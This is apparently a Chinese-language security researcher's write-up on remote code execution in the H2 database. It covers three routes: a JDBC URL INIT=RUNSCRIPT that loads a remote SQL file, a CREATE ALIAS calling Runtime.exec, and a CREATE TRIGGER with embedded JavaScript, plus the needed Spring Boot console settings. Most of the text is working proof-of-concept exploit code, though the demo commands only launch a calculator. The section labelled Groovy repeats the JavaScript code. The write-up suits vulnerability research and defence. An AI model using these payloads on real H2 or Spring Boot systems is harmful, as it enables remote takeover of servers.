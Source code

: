 # H2-RCE

<center>@Y4tacker</center>

首先在SpirngBoot当中如果开启了也可以通过网页直接实现rce，当然需要开启参数

```xml
spring.h2.console.enable=true
spring.h2.console.setting.web-allow-others=true
```

![](img/1.png)

接下来分别介绍三种

## 通过加载执行远程sql

在org.h2.engine.Engine#openSession(org.h2.engine.ConnectionInfo)中,h2引擎将 "INIT "参数分割开来，并使用CommandInterface的不同实现类来初始化数据库连接，这取决于配置。

![](img/2.png)

通过使用RUNSCRIPT命令，h2最终会调用org.h2.command.dml.RunScriptCommand#execute来执行恶意的sql语句。

![](img/3.png)

```java
Class.forName("org.h2.Driver");
String connectionUrl = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8001/poc.sql'";
Connection connection = DriverManager.getConnection(connectionUrl);
connection.close();
```

Poc.sql

```java
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "y4tacker";}';CALL EXEC ('open -a Calculator.app')
```

那么为什么我们使用 "RUNSCRIPT "命令？因为我们使用的POC需要执行两条SQL语句，第一条是CREATE ALIAS，第二条是EXEC，这是一个两步的动作。然而session.prepareCommand不支持多条SQL语句的执行，所以我们使用RUNSCRIPT来从远程服务器加载SQL。

![](img/4.png)

## 配合Groovy

在org.h2.util.SourceCompiler#getClass中，h2使用isGroovySource来确定它是否是groovy源代码![](img/5.png)



```java
private static boolean isGroovySource(String var0) {
  return var0.startsWith("//groovy") || var0.startsWith("@groovy");
}
```

但是也不是每个项目都有Groovy

```java
	public static void main(String[] args) throws Exception {
		Class.forName("org.h2.Driver");

		String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
				"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
				"java.lang.Runtime.getRuntime().exec('open -na Calculator')\n" +
				"$$\n";
		Connection conn = DriverManager.getConnection(url);
		conn.close();
	}
```



## 无其他依赖通过Javascript

```
	public static void main(String[] args) throws Exception {
		Class.forName("org.h2.Driver");

		String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
				"INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
				"java.lang.Runtime.getRuntime().exec('open -na Calculator')\n" +
				"$$\n";		Connection conn = DriverManager.getConnection(url);
		conn.close();
	}
```

但是也是似乎有版本限制，我测试这是最低的限制

```
<dependency>
<groupId>com.h2database</groupId>
<artifactId>h2</artifactId>
<version>1.4.196</version>
</dependency>
```



## 关于报错

关于H2 数据库报错 Database "XXX" not found, and IFEXISTS=true, so we cant auto-create it [90146] 的解决办法

可以在[spring boot - Database not found, and IFEXISTS=true, so we cant auto-create it - Stack Overflow](https://stackoverflow.com/questions/55349373/database-not-found-and-ifexists-true-so-we-cant-auto-create-it)找到答案

Use a pre-2019 version of the `H2` database dependency that auto-creates the database every time you run your standalone application. For example version `1.4.193`. Your `pom.xml` should include this dependency:

```
<dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <version>1.4.193</version>
</dependency>
```

